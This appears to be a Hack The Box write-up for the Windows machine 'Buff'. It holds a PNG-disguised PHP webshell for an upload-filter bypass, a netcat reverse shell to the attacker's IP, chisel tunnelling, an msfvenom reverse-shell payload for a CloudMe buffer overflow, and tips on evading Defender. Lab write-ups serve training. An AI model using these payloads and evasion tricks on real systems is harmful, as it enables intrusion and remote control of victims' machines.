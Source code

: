 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

---

### Recon

#### Nmap Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.198
nmap -p 7680,8080 -sC -sV -oA scans/nmap-tcpscans 10.10.10.198
```
- Ports Open:
  - 8080: Apache [httpd](HTTP) 2.4.43 (Win64) PHP/7.4.6
  - 7680: Unknown

#### Gobuster
```bash
gobuster dir -u http://10.10.10.198:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 40 -o scans/gobuster-root-small-php
```
- Interesting Directories:
  - /upload.php
  - /register.php
  - /about.php
  - /admin

---

### Initial Exploit

#### Identifying the Application
- Web app identified as **Gym Management System** from **Projectworlds.in**
- Confirmed via `/README.md` and `/contact.php`

#### Searchsploit
```bash
searchsploit gym management
```
- Found: **Gym Management System 1.0 - Unauthenticated RCE** (48506.py)

#### Webshell Upload
- Upload bypass via double extension: `shell.php.png`
- Upload via `upload.php?id=yourname`
- PHP shell content starts with PNG magic bytes:
```php
\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php echo shell_exec($_REQUEST["cmd"]); ?>
```
- Trigger shell:
```bash
curl http://10.10.10.198:8080/upload/yourname.php?cmd=whoami
```

#### Upgrade Shell
- Serve nc64.exe over SMB using impacket’s smbserver:
```bash
smbserver.py share . -smb2support -username df -password df
```
- On Buff:
```cmd
net use \\10.10.14.20\share /u:df df
copy \\10.10.14.20\share\nc64.exe C:\programdata\nc.exe
C:\programdata\nc.exe -e cmd.exe 10.10.14.20 443
```
- Start listener:
```bash
rlwrap nc -lvnp 443
```

---

### Privilege Escalation

#### Enumeration
- Local port 8888 used by `CloudMe.exe`
- Found `CloudMe_1112.exe` in Downloads

#### Searchsploit
```bash
searchsploit cloudme
```
- Found: **CloudMe 1.11.2 - Buffer Overflow (48389.py)**

#### Setup Tunnel with Chisel
- Upload chisel client:
```cmd
copy \\10.10.14.20\share\chisel.exe C:\programdata\chisel.exe
```
- Start server on Kali:
```bash
chisel server -p 8000 --reverse
```
- Connect from Buff:
```cmd
chisel.exe client 10.10.14.20:8000 R:8888:127.0.0.1:8888
```

#### Modify Exploit Payload
- Use msfvenom to generate reverse shell:
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
- Replace payload in `48389.py`
- Run exploit:
```bash
python3 cloudme-bof.py
```
- Get admin shell at listener

---

### Flags
- **User:** `e9ff7f33************************`
- **Root:** `0e2cf4e5************************`

---

### Beyond Root

#### Gym Exploit Analysis
- Exploit uses `/upload.php` with `id` param to upload shell
- Bypasses extension filter with `.php.png`
- Bypasses MIME filter with correct Content-Type and PNG header

#### Defender Evasion
- Upload fails with `system()` due to AV
- Upload succeeds with `shell_exec()`
- Alternate bypass: inject HTML tags to evade Defender signature detection

---

### Summary
HTB: Buff is an excellent beginner-friendly box emulating an OSCP-style workflow: from web exploitation to bypassing upload filters, to privilege escalation through buffer overflow in a local service. The use of Chisel for tunneling and awareness of AV evasion techniques adds valuable depth to the learning experience.

